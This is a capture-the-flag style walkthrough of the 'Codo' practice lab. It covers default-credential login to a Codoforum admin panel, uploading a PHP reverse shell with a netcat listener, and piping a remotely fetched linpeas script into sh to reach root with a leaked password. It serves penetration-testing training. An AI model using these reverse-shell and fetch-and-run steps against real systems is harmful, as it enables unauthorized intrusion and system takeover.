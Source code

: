 ```yaml
---
title: Codo
date: 2023-12-10
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon
![info-comm](./info-comm.png)
This machine has a Linux OS and is also rated easy by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.183.23  codo.offsec
```
## Nmap
``` 
nmap -p- --open -sC -sV codo.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

The nmap scan discovered a web application
- Browse to `http://codo.offsec/` and we can see that the website is `Powered by Codoforum`

## Gobuster
```
gobuster dir -u codo.offsec/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt 
```
![gobuster](./gobuster.png)
The gobuster scan found an admin panel at `/admin/`
- The default credentials `admin:admin` can be used to log in

## Searchsploit
```
searchsploit codoforum
```
![searchsploit](./searchsploit.png)
Searchsploit returns a couple scripts, but the remote code execution python script looks the most interesting, download the script using:
```
searchsploit -m php/webapps/50978.py
```
- looking at this script shows the following URL location that allows for file upload
![urlUpload](./urlUpload.png)
- when going to the URL in the browser, we are indeed able to upload an image file

# Exploitation
Let's run the script found from searchsploit. The format for the flags are shown below.
```
python3 exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]
```
![firstrun](./firstrun.png)

Unfortunately, the script does not run correctly and fails in uploading the script. 

We can manually upload a PHP script as shown by the output.
- [Use this PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- make sure to change the IP to the kali host and port number in the reverse shell php script
![changeField](./changeField.png)

Upload the php reverse shell by going to admin panel -> global settings -> scroll down to change logo for the forum.
![uploadField](./uploadField.png)
Then, click the save button.

Start a netcat listener with `nc -lnvp 1234`

After uploading the script and starting a listener, the attacker can execute the uploaded script by going to `http://codo.offsec/sites/default/assets/img/attachments/[uploaded_filename.php]`
![local](./local.png)

To get a fully functional shell follow the commands below
```
python3 -c ‘import pty;pty.spawn(“/bin/bash”);’
export TERM=xterm
Ctrl + z
stty raw -echo ; fg
reset
```

# Privilege Escalation
To assess the attack surface, run `linpeas.sh` on the target:
- run a python http server in the directory with the `linpeas.sh` file with `python3 -m http.server 80`
- then use the `curl` command with `sh` to run the script on the target machine
- the IP specified is downloading from my Kali host
```
curl http://192.168.45.202/linpeas.sh | sh
```

## Linpeas Results
From the scan results, we find a config PHP file with a password in it.
![foundPass](./foundPass.png)

We can try to log in to other users on the machine using this password
- linpeas found two other users, `root` and `offsec`
- use the `su` command and try password `FatPanda123`
![foundUsers](./foundUsers.png)

The password works for the `root` user
![root](./root.png)

# Summary
Vulnerabilities include default credentials (`admin:admin`) on a Codoforum-powered web app, allowing unauthorized access to the admin panel. Despite a failed automated script, manual upload of a PHP reverse shell through the admin interface succeeds, leading to a fully functional shell. Privilege escalation involves discovering a password in Linpeas scan, granting root access on the machine.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points